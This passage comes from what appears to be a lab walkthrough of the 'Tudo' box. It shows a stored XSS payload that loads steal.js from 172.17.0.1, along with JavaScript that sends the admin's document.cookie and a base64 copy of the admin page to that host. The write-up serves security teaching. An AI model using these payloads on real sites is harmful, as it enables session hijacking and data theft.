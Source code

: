 And now just access localhost and see it gets on our port 8000

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:24:52.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:24:43.png)

Now, let's build our simple payload to get the admin cookie

```php
<script src="http://172.17.0.1/steal.js"></script>
```

steal.js

```js
function send_cookie(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://172.17.0.1/?xss=' + document.cookie, true);
        req.send();
}

send_cookie();
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:26:16.png)

And we got it!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2008:33:10.png)

How about the get the admin page now?

```js
function send_cookie(){
        var req=new XMLHttpRequest();
        req.open('GET', 'http://172.17.0.1/?xss=' + btoa(document.body.innerHTML),true);
        req.send();
}

send_cookie();
```

We got the admin page

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2005:16:40.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2005:17:13.png)

And open it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2005:38:28.png)

We see that it's still loading the js file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2005:38:45.png)
